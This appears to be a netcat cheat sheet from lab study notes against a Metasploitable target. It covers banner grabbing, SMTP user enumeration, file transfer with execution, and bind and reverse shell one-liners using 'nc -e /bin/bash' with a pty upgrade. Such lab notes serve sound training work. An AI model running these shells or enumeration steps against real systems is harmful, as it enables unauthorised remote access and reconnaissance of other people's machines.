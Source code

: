 # Netcat (nc)
## Banner grabbing
### SSH
    nc -nv 192.168.4.32 22
    
    (UNKNOWN) [192.168.4.32] 22 (ssh) open
    SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1

### HTTP
    nc -nv 192.168.4.32 80
    get / http/1.1 # hit 'enter' twice
    
    HTTP/1.1 400 Bad Request
    Date: Tue, 27 Feb 2024 16:47:41 GMT
    Server: Apache/2.2.8 (Ubuntu) DAV/2
    Content-Length: 323
    Connection: close
    Content-Type: text/html; charset=iso-8859-1
    
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>400 Bad Request</title>
    </head><body>
    <h1>Bad Request</h1>
    <p>Your browser sent a request that this server could not understand.<br />
    </p>
    <hr>
    <address>Apache/2.2.8 (Ubuntu) DAV/2 Server at metasploitable.localdomain Port 80</address>
    </body></html>

### FTP
    nc -nv 192.168.4.32 21
    
    (UNKNOWN) [192.168.4.32] 21 (ftp) open
    220 (vsFTPd 2.3.4)

### SMTP
    nc -nv 192.168.4.32 25
    
    (UNKNOWN) [192.168.4.32] 25 (smtp) open
    220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
    vrfy msfadmin
    252 2.0.0 msfadmin
    vrfy root
    252 2.0.0 root
    vrfy Administrator
    550 5.1.1 <Administrator>: Recipient address rejected: User unknown in local recipient table
    
## Transferring data
### Chat client
    SERVER													CLIENT
    nc -lnvp 1234
															nc -nv 192.168.4.25 1234
	INPUT: Hello world!
															OUTPUT: Hello world!
											
### File transfer (can also output the client input above to file)
    SERVER													CLIENT
    nc -lvnp 1324 > output.sh
    														nc -nv 192.168.4.25 1324 -w <n> < input.sh # -w wait for <n> seconds before timeout
    ./output.sh

## Bind shell
    SERVER													CLIENT
    nc -lvnp 1324 -e "/bin/bash" # cmd.exe on Windows
    														nc -nv 192.168.4.25 1234
    														OUTPUT: shell prompt

## Reverse shell
    SERVER													CLIENT
    nc -lvnp 1324
    														nc -nv 192.168.4.25 1324 -e /bin/bash # cmd.exe on Windows
    OUTPUT: no shell prompt; can use without prompt, or possibly use the following on linux:
    which python
    python -c "import pty;pty.spawn('/bin/bash')"

